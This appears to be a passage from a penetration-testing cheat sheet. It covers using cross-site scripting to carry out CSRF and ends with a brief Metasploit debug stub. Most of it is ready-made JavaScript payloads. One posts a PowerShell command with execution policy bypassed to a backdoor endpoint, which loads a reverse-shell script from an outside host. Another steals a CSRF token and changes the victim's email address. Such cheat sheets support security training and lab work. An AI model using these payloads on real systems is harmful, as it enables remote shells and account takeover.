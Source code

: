 * [www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)


#### XSS to CSRF

If the endpoint is accessible only from localhost:

```javascript
<script>
var xhr;
if (window.XMLHttpRequest) {
	xhr = new XMLHttpRequest();
} else {
	xhr = new ActiveXObject("Microsoft.XMLHTTP");
}
xhr.open("POST", "/backdoor.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("cmd=powershell -nop -exec bypass -f  \\\\10.10.15.123\\share\\rev.ps1");
</script>
```

With capturing CSRF token first:

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('GET', '/email', true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('POST', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=test@example.com')
};
</script>
```

* [portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)




## Metasploit



### Debug

```
root@kali:$ gem install pry-byebug
root@kali:$ vi ~/.pry-byebug
...
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)